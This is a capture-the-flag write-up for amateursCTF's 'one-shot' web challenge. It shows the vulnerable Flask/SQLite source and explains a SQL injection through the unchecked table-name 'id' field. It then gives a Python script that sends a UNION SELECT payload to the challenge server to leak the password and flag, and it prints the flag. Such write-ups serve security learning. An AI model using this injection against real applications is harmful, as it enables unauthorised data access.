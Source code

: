 # one-shot

> my friend keeps asking me to play OneShot. i haven't, but i made this cool challenge! 
>
> http://one-shot.amt.rs

Solution:

We are given with the challenge source and a Dockerfile to test locally.

```python
from flask import Flask, request, make_response
import sqlite3
import os
import re

app = Flask(__name__)
db = sqlite3.connect(":memory:", check_same_thread=False)
flag = open("flag.txt").read()

@app.route("/")
def home():
    return """
    <h1>You have one shot.</h1>
    <form action="/new_session" method="POST"><input type="submit" value="New Session"></form>
    """

@app.route("/new_session", methods=["POST"])
def new_session():
    id = os.urandom(8).hex()
    pwd = os.urandom(16).hex()
    print(f"pwd: {pwd}")
    db.execute(f"CREATE TABLE table_{id} (password TEXT, searched INTEGER)")
    db.execute(f"INSERT INTO table_{id} VALUES ('{pwd}', 0)")
    res = make_response(f"""
    <h2>Fragments scattered... Maybe a search will help?</h2>
    <form action="/search" method="POST">
        <input type="hidden" name="id" value="{id}">
        <input type="text" name="query" value="">
        <input type="submit" value="Find">
    </form>
""")
    res.status = 201

    return res

@app.route("/search", methods=["POST"])
def search():
    id = request.form["id"]
    if not re.match("[1234567890abcdef]{16}", id):
        return "invalid id"
    searched = db.execute(f"SELECT searched FROM table_{id}").fetchone()[0]
    if searched:
        return "you've used your shot."
    
    db.execute(f"UPDATE table_{id} SET searched = 1")

    query = db.execute(f"SELECT password FROM table_{id} WHERE password LIKE '%{request.form['query']}%'")
    return f"""
    <h2>Your results:</h2>
    <ul>
    {"".join([f"<li>{row[0][0] + '*' * (len(row[0]) - 1)}</li>" for row in query.fetchall()])}
    </ul>
    <h3>Ready to make your guess?</h3>
    <form action="/guess" method="POST">
        <input type="hidden" name="id" value="{id}">
        <input type="text" name="password" placehoder="Password">
        <input type="submit" value="Guess">
    </form>
"""

@app.route("/guess", methods=["POST"])
def guess():
    id = request.form["id"]
    if not re.match("[1234567890abcdef]{16}", id):
        return "invalid id"
    print(f"id: {id}")
    result = db.execute(f"SELECT password FROM table_{id} WHERE password = ?", (request.form['password'],)).fetchone()
    if result != None:
        return flag
    
    db.execute(f"DROP TABLE table_{id}")
    return "You failed. <a href='/'>Go back</a>"

@app.errorhandler(500)
def ise(error):
    original = getattr(error, "original_exception", None)
    if type(original) == sqlite3.OperationalError and "no such table" in repr(original):
        return "that table is gone. <a href='/'>Go back</a>"
    return "Internal server error"

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8080)
```

In order to get the flag, we need to call the `/guess` endpoint. Thankfully, we don't have to use the search function since it only sanitized the `password` for the WHERE clause and not the value for the table name.

```
result = db.execute(f"SELECT password FROM table_{id} WHERE password = ?", (request.form['password'],)).fetchone()
```

So we can do a query like:

```
idHere UNION SELECT password from table_idHere 
```

since it will become

```
SELECT password FROM table_idHere UNION SELECT password from table_idHere WHERE password = ?
```

the value of our password can be anything, it won't matter since we will get the password anyways

I decided to create a Python script to automate it.

```python
import requests
import re
from urllib.parse import urlencode

headers = {
    'content-type': 'application/x-www-form-urlencoded'
}

getID = requests.post('http://one-shot.amt.rs/new_session', headers=headers)

# Extract ID
idRegex = r'[1234567890abcdef]{16}'
match = re.search(idRegex, getID.text)
if match:
    id = match.group(0)
    print(f'ID value: {id}')
else:
    print('ID value not found')

formData = {
    'id': f"{id} UNION SELECT password from table_{id} ",
    'password': "meow"
}

data = urlencode(formData)

getFlag = requests.post('http://one-shot.amt.rs/guess', headers=headers, data=data)

print(getFlag.text)
```

![image](1.png)

Noice!

Flag: `amateursCTF{go_union_select_a_life}`